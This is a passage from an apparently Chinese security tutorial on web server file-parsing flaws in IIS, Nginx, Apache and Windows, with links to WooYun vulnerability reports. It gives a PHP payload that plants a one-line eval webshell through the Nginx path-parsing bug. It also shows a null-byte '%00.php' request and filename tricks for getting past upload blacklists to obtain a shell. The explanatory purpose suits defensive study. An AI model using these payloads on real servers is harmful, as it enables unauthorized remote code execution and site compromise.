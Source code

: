 乌云上的IIS 6.0解析漏洞利用案例

[http://www.wooyun.org/searchbug.php?q=IIS6.0](http://www.wooyun.org/searchbug.php?q=IIS6.0)

### 二、IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞


Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的…

在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为

```
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>

```

的文件，然后访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php

这个漏洞案例

[WooYun: 用友软件某分站SQL注入漏洞+nginx解析漏洞](http://www.wooyun.org/bugs/wooyun-2013-032250)

[WooYun: 新浪网分站多处安全漏洞（nginx解析+SQL注射等）小礼包](http://www.wooyun.org/bugs/wooyun-2013-021064)

[WooYun: kingsoft.com某x级域名nginx解析漏洞+爆路径](http://www.wooyun.org/bugs/wooyun-2013-019253)

### 三、Nginx <8.03 空字节代码执行漏洞


影响版:0.5.*,0.6.*, 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx在图片中嵌入PHP代码然后通过访问

```
xxx.jpg%00.php

```

来执行其中的代码

Nginx 空字节代执行漏洞案例

[http://www.wooyun.org/searchbug.php?q=%2500.php](http://www.wooyun.org/searchbug.php?q=%2500.php)

### 四、Apache解析漏洞


Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 wooyun.php.owf.rar “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把wooyun.php.owf.rar解析成php.

如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个wooyun.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀

Apache解析漏洞案例

[http://www.wooyun.org/searchbug.php?q=apache%E8%A7%A3%E6%9E%90](http://www.wooyun.org/searchbug.php?q=apache%E8%A7%A3%E6%9E%90)

### 五、其他


在windows环境下，xx.jpg\[空格\] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。
